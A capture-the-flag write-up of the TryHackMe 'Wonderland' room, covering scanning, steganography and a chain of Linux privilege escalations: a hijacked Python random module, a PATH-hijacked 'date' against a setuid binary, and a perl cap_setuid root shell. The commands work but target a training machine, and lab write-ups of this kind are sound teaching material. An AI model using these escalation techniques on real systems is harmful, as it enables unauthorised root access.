

# TryHackMe(THM) - Wonderland - WriteUp

> Austin Lai | August 9th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: **Medium**

However, I rate it as quite easy.

The room is completed on June 10th, 2020

<!-- /Description -->

---

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Wonderland - WriteUp](#tryhackmethm---wonderland---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
Obtain the flag in user.txt
Hint: Everything is upside down here.


Escalate your privileges, what is the flag in root.txt?
```


## Let's Begin Here !!!

Let fire up basic enumeration.

Nmap result:

```text
# Nmap 7.80 scan initiated Sat Jun 06 20:35:38 2020 as: nmap --privileged --stats-every 10s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 60 --script=vuln --script-trace --append-output --reason -oN TryHackMe-Wonderland 10.10.189.224
Nmap scan report for 10.10.189.224
Host is up, received user-set (0.38s latency).
Scanned at 2020-06-06 20:35:50 Malay Peninsula Standard Time for 944s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-passwd: ERROR: Script execution failed (use -d to debug)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/6%OT=22%CT=1%CU=35230%PV=Y%DS=4%DC=T%G=Y%TM=5EDB9156
OS:%P=i686-pc-windows-windows)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508
OS:ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Uptime guess: 16.220 days (since Thu May 21 15:35:28 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 4/tcp)
HOP RTT       ADDRESS
1   109.00 ms 10.4.0.1
2   ... 3
4   366.00 ms 10.10.189.224


# Nmap 7.80 scan initiated Sat Jun 06 21:09:37 2020 as: nmap --privileged --stats-every 10s -vvvvvv -Pn -p10-100 -r -sCSV -T5 --min-parallelism 50 --append-output -oN TryHackMe-Wonderland-initial 10.10.189.224
Nmap scan report for 10.10.189.224
Host is up, received user-set (0.38s latency).
Scanned at 2020-06-06 21:09:41 Malay Peninsula Standard Time for 35s

PORT    STATE  SERVICE      REASON         VERSION
22/tcp  open   ssh          syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp  open   http         syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: C:\Program Files (x86)\Nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 06 21:10:17 2020 -- 1 IP address (1 host up) scanned in 39.54 seconds
```

Gobuster result:

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.189.224
[+] Threads:        20
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/06 20:38:38 Starting gobuster
===============================================================
/img (Status: 301)
/r (Status: 301)
/poem (Status: 301)
===============================================================
2020/06/06 21:47:10 Finished
===============================================================
```

Main page:


As gobuster show some result, check it out.

R page:


Poem page:


Img page:


Tips: Always download all the content, file, images whenever possible to allow you study and inspect.

Since there are image give, let check some basic steganography.

Alice_door jpg:


Files extracted from alice_door jpg:


However, it is not helpful as nothing come up from the files we extracted, let's move on ...

white_rabbit_1 jpg:

```bash
steghide info white_rabbit_1.jpg

"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

hint.txt from white_rabbit_1.jpg:

```text
follow the r a b b i t
```

Remember the gobuster result with "r" page, what is the page mentioned ?

Follow the rabbit given from the hint, you will get


Have you check the source ?


Yeah, we got alice credentials, let's access the system.

Connect script:

```bash
#!/bin/bash

sshpass -vvvp '---------' ssh -vvv -p 22 alice@10.10.189.224 -o StrictHostKeyChecking=no
```

Let perform Enumeration

```bash
alice@wonderland:~$ ls -laghR /home
/home:
total 24K
drwxr-xr-x  6 root      4.0K May 25  2020 .
drwxr-xr-x 23 root      4.0K May 25  2020 ..
drwxr-xr-x  5 alice     4.0K May 25  2020 alice
drwxr-x---  3 hatter    4.0K May 25  2020 hatter
drwxr-x---  2 rabbit    4.0K May 25  2020 rabbit
drwxr-x---  6 tryhackme 4.0K May 25  2020 tryhackme

/home/alice:
total 40K
drwxr-xr-x 5 alice 4.0K May 25  2020 .
drwxr-xr-x 6 root  4.0K May 25  2020 ..
lrwxrwxrwx 1 root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice 3.7K May 25  2020 .bashrc
drwx------ 2 alice 4.0K May 25  2020 .cache
drwx------ 3 alice 4.0K May 25  2020 .gnupg
drwxrwxr-x 3 alice 4.0K May 25  2020 .local
-rw-r--r-- 1 alice  807 May 25  2020 .profile
-rw------- 1 root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  3.5K May 25  2020 walrus_and_the_carpenter.py

/home/alice/.cache:
total 8.0K
drwx------ 2 alice 4.0K May 25  2020 .
drwxr-xr-x 5 alice 4.0K May 25  2020 ..
-rw-r--r-- 1 alice    0 May 25  2020 motd.legal-displayed

/home/alice/.gnupg:
total 12K
drwx------ 3 alice 4.0K May 25  2020 .
drwxr-xr-x 5 alice 4.0K May 25  2020 ..
drwx------ 2 alice 4.0K May 25  2020 private-keys-v1.d

/home/alice/.gnupg/private-keys-v1.d:
total 8.0K
drwx------ 2 alice 4.0K May 25  2020 .
drwx------ 3 alice 4.0K May 25  2020 ..

/home/alice/.local:
total 12K
drwxrwxr-x 3 alice 4.0K May 25  2020 .
drwxr-xr-x 5 alice 4.0K May 25  2020 ..
drwx------ 3 alice 4.0K May 25  2020 share

/home/alice/.local/share:
total 12K
drwx------ 3 alice 4.0K May 25  2020 .
drwxrwxr-x 3 alice 4.0K May 25  2020 ..
drwx------ 2 alice 4.0K May 25  2020 nano

/home/alice/.local/share/nano:
total 8.0K
drwx------ 2 alice 4.0K May 25  2020 .
drwx------ 3 alice 4.0K May 25  2020 ..
ls: cannot open directory '/home/hatter': Permission denied
ls: cannot open directory '/home/rabbit': Permission denied
ls: cannot open directory '/home/tryhackme': Permission denied

alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py


alice@wonderland:~$ cat /home/alice/walrus_and_the_carpenter.py
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun 
........................................................
"""
```

We have found root.txt and some python script can be run via sudo as root.

However, we have not yet found user.txt, will jump back to that later.

Since the python script can run as sudo, and it only use python random library.

Let do some research how to get privesc from python random module.

Check out [this](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Let's check on python path.

```bash
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']

alice@wonderland:~$ locate random.py
/usr/lib/python3/dist-packages/cloudinit/config/cc_seed_random.py
/usr/lib/python3.6/random.py
```

Base on the article we found, we can create own script and hijack the random module.

```bash
alice@wonderland:~$ vi random.py

alice@wonderland:~$ cat random.py
import os
os.system('/bin/bash')
```

Since, we know that we can run the /walrus_and_the_carpenter python script with sudo using user "rabbit".

Let try out.

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
rabbit@wonderland:~$
rabbit@wonderland:~$ pwd
/home/alice
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

We found an executable in rabbit home --- "teaParty", run it and see what happen.

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 09 Aug 2021 09:45:28 +0000
Ask very nicely, and I will give you some tea while you wait for him
asdasd
Segmentation fault (core dumped)
```

Segmentation fault (core dumped) printed in the output of the program, possible buffer overflow ?!

Let's download the program and inspect further.

If you open up the porgram in IDA or Ghidra.



You will notice, the program using "echo" binary to print out "date" in linux!

Which mean we can hijack the it in "PATH" and create our own "date", this will allow the program use our "date" instead of system !

```bash
rabbit@wonderland:/home/rabbit$ vi date
rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rw-r--r-- 1 rabbit rabbit    26 Aug  9 08:53 date
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rwxrwxrwx 1 rabbit rabbit    26 Aug  9 08:53 date
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

/bin/bash -p
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$
```

Now let's run teaParty program again, and we got access to hatter !

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:/home/rabbit$
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -l
total 4
-rw------- 1 hatter hatter 29 May 25  2020 password.txt
```

Well, there is a password.txt in hatter home !

Let's access the system using hatter credentials and perform enumeration again !

After common enumeration, nothing useful for us to get PrivEsc, hence decided to check if we got any binary with capabilities.

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

There it is, we can binary "perl" with linux capabilities.

Let do a quick research how to get root from there.

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# bash
root@wonderland:~# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
root@wonderland:~#
root@wonderland:~# find / -type f \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null
/home/alice/root.txt
/root/user.txt
```

Well, you have the user.txt and root.txt !!!

Tips: the user.txt can be view by alice from start, if you use ` cat /root/user.txt ` !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


